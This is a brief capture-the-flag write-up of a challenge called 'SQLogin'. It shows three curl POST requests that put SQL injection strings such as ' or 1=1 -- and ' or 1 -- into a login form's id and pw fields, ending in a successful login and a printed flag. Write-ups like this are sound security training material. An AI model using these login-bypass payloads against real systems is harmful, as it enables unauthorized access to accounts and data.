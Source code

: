 # SQLogin

Seems like the usual SQL injection

## Try 1

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=admin" \
     --data-urlencode "pw=' or 1=1 --"
```

![](i1.png)
Hrmm

## Try 2

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1=1 --" \
     --data-urlencode "pw="
```

![](i2.png)

## Try 3

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1 --" \
     --data-urlencode "pw="
```

![](i3.png)

```text
Login Success!
Flag is CDDC22{Th1s_i5_51mp1e_SQL_inj3ct10n}
```

erm, was this supposed to happen?